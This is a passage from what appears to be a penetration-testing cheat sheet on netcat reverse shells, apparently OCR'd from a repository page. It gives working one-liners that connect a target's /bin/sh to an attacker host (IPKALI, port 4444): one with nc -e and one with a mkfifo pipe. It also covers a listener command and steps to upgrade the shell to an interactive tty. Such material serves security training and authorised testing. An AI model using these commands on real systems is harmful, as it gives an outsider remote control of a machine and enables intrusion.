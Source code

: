 On the target host, start a reverse shell. This reverse shell launch a shell and connect it to your host on 4444 port.
```
nc -e /bin/sh IPKALI 4444
```

To use a reverse shell you must have a public IP, and can't use a NAT.
Well, you can, its just little bit trickier.







## Netcat - Reverse Shell (without -e)

On your host, start a nc listening on 4444 port
```
nc -lvp 4444
```

On the target host, start a reverse shell. This reverse shell launch a shell and connect it to your host on 4444 port.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IPKALI 4444 >/tmp/f
```








## Upgrade your nc shell to a tty

The shell obtained with nc is basic. It is not a tty (real terminal).<br/>
Some commands like su will refuse to work.<br/>
To upgrade our shell, use python to get a tty shell:
```
python -c 'import pty; pty.spawn(&quot/bin/bash&quot)'
```








## Upgrade your shell with history and completion

The shell obtained with nc is basic. The completion with Tab, the history with arrows are not managed.<br/>
<br/>
Put the nc in the background with:
```
Ctr-Z
```

Then ask the current shell to pass the raw keystroke codes to the remote shell, and switch back to the netcat (foreground)
```
stty raw -echo
fg
```
